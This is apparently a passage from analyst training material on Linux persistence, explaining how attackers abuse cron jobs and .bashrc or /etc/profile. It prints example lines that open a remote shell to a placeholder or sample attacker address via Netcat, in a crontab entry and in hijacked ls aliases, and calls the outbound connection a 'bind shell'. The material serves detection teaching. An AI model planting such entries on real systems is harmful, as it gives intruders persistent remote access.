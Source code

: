 Crontab Entry
﻿

The Linux cron system is designed to execute scheduled jobs at specific intervals. Although the majority of these jobs are benign system administrator tasks, attackers can take advantage of cron to provide persistence for their malware.

﻿

An attacker might create the following cron job entry to execute a bind shell every day at 4 a.m.:

0 4 * * * nc -e /bin/bash <Attacker IP> <Attacker Port>

﻿

This cron executes the Netcat application every day at 4 a.m. and connects to the attacker’s listener using /bin/bash to send the shell. An attacker can modify the name of the application, which may not resemble Netcat or another known tool. The following command does the same thing as above, but the application name has been changed:

0 4 * * * /etc/sysinfo -e /bin/bash <Attacker IP> <Attacker Port>

﻿

By recognizing the command syntax for Netcat, the analyst can determine that /etc/sysinfo is, in fact, Netcat. Generally speaking, if an Internet Protocol (IP) address is present in a crontab entry, it should cause concern and be investigated.

﻿

Event-Based Execution
﻿

Linux OSs come with several files designed to set up the user environment upon login. Typically, the first profile loaded is the user’s Bourne Again Shell (Bash) .bashrc file, located in the user’s home directory. This file contains routines that are executed as soon as the user logs into their account. An attacker can leverage this by placing malicious code within the ~/.bashrc file. For example, consider the following snippet from a .bashrc file:

alias lsa='ls -la'
alias ll='ls -lart'
alias l='ls -l'
﻿

The above snippet sets up aliases for the ls command. However, if an attacker gained access to the user’s account and replaced those aliases with the following, they would be granted a remote shell any time the commands were run:

alias lsa='ls -la && /usr/bin/nc 123.123.123.123 1337'
alias ll='ls -lart && /usr/bin/nc 123.123.123.123 1337'
alias l='ls -l && /usr/bin/nc 123.123.123.123 1337'
﻿

Another location where an attacker could place an event-based execution mechanism is the system’s /etc/profile. This file is owned by root, so an attacker would need root access to be able to modify this file. If an attacker gained root access and made malicious modifications to this file, then any time any user logged into the machine, the malicious code would be executed.

